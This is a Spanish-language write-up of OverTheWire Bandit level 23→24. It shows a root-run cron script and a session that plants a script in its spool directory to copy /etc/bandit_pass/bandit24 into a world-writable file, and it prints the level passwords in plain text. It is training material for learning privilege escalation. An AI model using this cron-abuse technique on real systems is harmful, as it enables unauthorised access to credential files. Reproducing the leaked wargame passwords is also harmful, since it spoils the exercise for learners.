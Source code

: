 # Level 23 -24
## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos de acceso al nivel
```bash
Usuario: bandit23
Contraseña:QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
```
## Solución
```bash
Pass siguiente lvl: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

----------------------------------------
bandit23@bandit:~$
bandit23@bandit:~$ ls /etc/cron.d
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo || exit 1
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -rf ./$i
    fi
done

bandit23@bandit:~$ mkdir /tmp/kd
bandit23@bandit:~$ cd /tmp/kd
bandit23@bandit:/tmp/kd$ echo "cat /etc/bandit_pass/bandit24 > /tmp/kd/password" > script.sh
bandit23@bandit:/tmp/kd$ cat script.sh
cat /etc/bandit_pass/bandit24 > /tmp/kd/password
bandit23@bandit:/tmp/kd$ chmod +x script.sh
bandit23@bandit:/tmp/kd$ touch password
bandit23@bandit:/tmp/kd$ chmod 666 password
bandit23@bandit:/tmp/kd$ ls -la
total 10564
drwxrwxr-x    2 bandit23 bandit23     4096 Sep 18 14:07 .
drwxrwx-wt 1226 root     root     10801152 Sep 18 14:07 ..
-rw-rw-rw-    1 bandit23 bandit23        0 Sep 18 14:07 password
-rwxrwxr-x    1 bandit23 bandit23       49 Sep 18 14:07 script.sh
bandit23@bandit:/tmp/kd$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/kd$ ls -la
total 10564
drwxrwxr-x    2 bandit23 bandit23     4096 Sep 18 14:07 .
drwxrwx-wt 1226 root     root     10801152 Sep 18 14:08 ..
-rw-rw-rw-    1 bandit23 bandit23        0 Sep 18 14:07 password
-rwxrwxr-x    1 bandit23 bandit23       49 Sep 18 14:07 script.sh
bandit23@bandit:/tmp/kd$ date
Mon Sep 18 02:08:15 PM UTC 2023
bandit23@bandit:/tmp/kd$ ls -la
total 10564
drwxrwxr-x    2 bandit23 bandit23     4096 Sep 18 14:07 .
drwxrwx-wt 1225 root     root     10801152 Sep 18 14:08 ..
-rw-rw-rw-    1 bandit23 bandit23        0 Sep 18 14:07 password
-rwxrwxr-x    1 bandit23 bandit23       49 Sep 18 14:07 script.sh
bandit23@bandit:/tmp/kd$ cat password
bandit23@bandit:/tmp/kd$ date
Mon Sep 18 02:10:02 PM UTC 2023
bandit23@bandit:/tmp/kd$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/kd$
```
## Notas Adicionales

| Comando  | Descripción | 
|------------|--------------|

## Referencias 
